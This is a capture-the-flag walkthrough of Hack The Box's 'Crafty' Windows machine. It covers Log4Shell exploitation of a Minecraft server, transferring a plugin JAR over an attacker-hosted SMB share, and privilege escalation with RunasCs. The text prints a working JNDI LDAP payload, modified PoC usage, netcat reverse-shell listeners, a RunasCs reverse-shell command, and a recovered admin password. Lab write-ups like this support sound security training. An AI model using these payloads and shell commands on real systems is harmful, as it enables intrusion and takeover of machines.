



Box: Windows
Level: Easy
### Index
1. Box Information on HTB
2. Initial Nmap Enumeration
3. log4j Exploitation to get user flag
4. Privilege Escalation
	4.1  Using winPEAS.bat
	4.2  `Impacket-smbshare` using password
	4.3  Decompiling JAR using JD-GUI
	4.4  Using [RunAsC](https://github.com/antonioCoco/RunasCs) when there's no SMB, Kerberos, LDAP or WinRm.

### Box Information on HTB

```
Crafty is an easy-difficulty Windows machine featuring the exploitation of a `Minecraft` server. Enumerating the version of the server reveals that it is vulnerable to pre-authentication Remote Code Execution (RCE), by abusing `Log4j Injection`. After obtaining a reverse shell on the target, enumerating the filesystem reveals that the administrator composed a Java-based `Minecraft` plugin, which when reverse engineered reveals `rcon` credentials. Those credentials are leveraged with the `RunAs` utility to gain Administrative access, compromising the system.
```
### Initial Nmap Enumeration

```
$ nmap -p- --min-rate=1000 -Pn -T4 -sC -sV 10.10.11.249
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-title: Crafty - Official Website
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.08 seconds

```

Again, I looked up at the writeup for this box. There were only two open ports. If you read the machine information, you will notice that you will be playing with Minecraft Server which is vulnerable to log4j vulnerability. This is the time when we are going to learn about the well-known log4j vulnerability.

### Log4j Exploitation

The Guide mode helped me to identify the vulnerability which is `log4j`. For this machine, I had to download the [Minecraft Console Client](https://github.com/MCCTeam/Minecraft-Console-Client) to interact with the target. The steps to catch the user shell are as follows. You will also need a [`log4j` PoC Code](https://github.com/kozmer/log4j-shell-poc?tab=readme-ov-file). 

Now, you need to make changes in the exploit code if you are using the one in the link above. 



On Line 26, write `cmd.exe`. It was `/bin/sh` earlier. one more thing you will change in the same code is at Line 118. It was a `localhost`. I changed it to `crafty.htb`.


Now first you will need to `respawned` your self using the Minecraft Console Client then run the exploit and start the Listener.

During the respawn, It will ask for the password. Just hit enter.

```
$ sudo ./MinecraftClient-20240816-275-linux-x64 lol
Minecraft Console Client v1.20.4 - for MC 1.4.6 to 1.20.4 - Github.com/MCCTeam
GitHub build 275, built on 2024-08-16 from commit c5dc517
Password(invisible): 
You chose to run in offline mode.
Server IP : 
Resolving crafty.htb...
Retrieving Server Info...
Server version : 1.16.5 (protocol v754)
[MCC] Version is supported.
Logging in...       
[MCC] Server is in offline mode.
[MCC] Server was successfully joined.
Type '/quit' to leave the server.
Unknown or incomplete command, see below for error
/<--[HERE]          
[MCC] You have respawned.
<lol> ${jndi:ldap://10.10.14.4:1389/a}
[MCC] You have respawned.         
<lol> ${jndi:ldap://10.10.14.4:1389/a}
lol was slain by Zombie
[MCC] You are dead. Type '/respawn' to respawn.
[MCC] You have respawned.         
[MCC] Connection has been lost.   
  
Not connected to any server. Use '/help' for help.
Or press Enter to exit Minecraft Console Client.
> 
```

Running the Exploit and starting the netcat listener.

```
$ sudo python poc.py --userip 10.10.14.4 --webport 80 --lport 4444

[!] CVE: CVE-2021-44228                                                                                                                                                 
[!] Github repo: https://github.com/kozmer/log4j-shell-poc                                                                                                              

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.4:1389/a}

[+] Starting Webserver on port 80 http://0.0.0.0:80
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.4:80/Exploit.class
10.10.11.249 - - [22/Aug/2024 01:43:35] "GET /Exploit.class HTTP/1.1" 200 -

```

Now in a Minecraft Console Client, Send your payload as a message and you will see the reverse shell
```
<lol> ${jndi:ldap://10.10.14.4:1389/a}
[MCC] You have respawned.         
<lol> ${jndi:ldap://10.10.14.4:1389/a}
lol was slain by Zombie
[MCC] You are dead. Type '/respawn' to respawn.
[MCC] You have respawned.         
```

Got the user shell. Get your user flag from the Desktop folder
```
$ nc -lvnp 4444     
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.249] 49723
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server>whoami
whoami
crafty\svc_minecraft
```

### Privilege Escalation

#### Using winPEAS.bat 

Some of the notable information
```
Host Name:                 CRAFTY                                                                                                                     
OS Name:                   Microsoft Windows Server 2019 Standard                                                                                     
OS Version:                10.0.17763 N/A Build 17763
```

Since the user flag was captured using the `log4j`, I will also focus on Java Modules during the privilege escalations.

```
Path=C:\Program Files (x86)\Common Files\Oracle\Java\javapath;C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\svc_minecraft\AppData\Local\Microsoft\WindowsApps                                                                                      

PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC   

ProgramData=C:\ProgramData                                                                                                                            
ProgramFiles=C:\Program Files                                                                                                                         
ProgramFiles(x86)=C:\Program Files (x86)        
ProgramW6432=C:\Program Files 
TEMP=C:\Users\SVC_MI~1\AppData\Local\Temp 
```

Checking the Public Folder using tree command. 
```
c:\Users>tree /f public            
tree /f public                     
Folder PATH listing                
Volume serial number is C419-63F6    
C:\USERS\PUBLIC     
����Documents     
����Downloads       
����Music         
����Pictures       
����Videos
```

Upon surfing the `C:\Users\svc_minecraft\server\plugins>` directory, I found that there was a JAR file present, that is `playercounter-1.0-SNAPSHOT.jar`.
#### impacket-smbshare using password

This box wasn't allowing me to simply use `impacket-smbserer` without password Just like I have used it. So this time, i will have to provide the credentials.

```
$ impacket-smbserver a /home/ringbuffer/Downloads/Crafty.htb -smb2support -user lol -pass lol
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On a Windows machine
```
PS C:\Users\svc_minecraft\server\plugins> net use \\10.10.14.4\a /USER:lol lol
net use \\10.10.14.4\a /USER:lol lol
The command completed successfully.
```

Now I can transfer the JAR file onto Kali using the usual copy command. 

Upon receiving the JAR file, I installed the `JD-GUI` to decompile the JAR file and open it with `JD-GUI`.


So the `Playercounter.class` has a rcon method which has a unique string. Seems like a password. This box doesn't have any other ports open than just port 80 and Minecraft port. I will use [RunAsC](https://github.com/antonioCoco/RunasCs) 

```
PS C:\> copy \\10.10.14.4\a\RunasCs.exe C:\tmp\RunasCs.exe
copy \\10.10.14.4\a\RunasCs.exe C:\tmp\RunasCs.exe
PS C:\> cd tmp
cd tmp
PS C:\tmp> dir
dir


    Directory: C:\tmp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        5/19/2023   3:37 PM          51712 RunasCs.exe                                                           


PS C:\tmp> .\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.4:5555
.\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.4:5555

[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 1004 created in background.
PS C:\tmp> 
```

While the NetCat is running on port 5555

```
$ nc -lvnp 5555           
listening on [any] 5555 ...

connect to [10.10.14.4] from (UNKNOWN) [10.10.11.249] 49683
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\Windows\system32>whoami
whoami
crafty\administrator
```
Get your root flag.
### Lesson Learned

1.  Log4J PoC needs modification to run
2.  When SMB, LDAP, Kerberos or WinRM is not present, you will use `RunasCs.exe` to run Administrative Shell. The command to use is `.\RunasCs.exe <Admin> <Admin_Pass> cmd -r <kali_ip>:port`. 
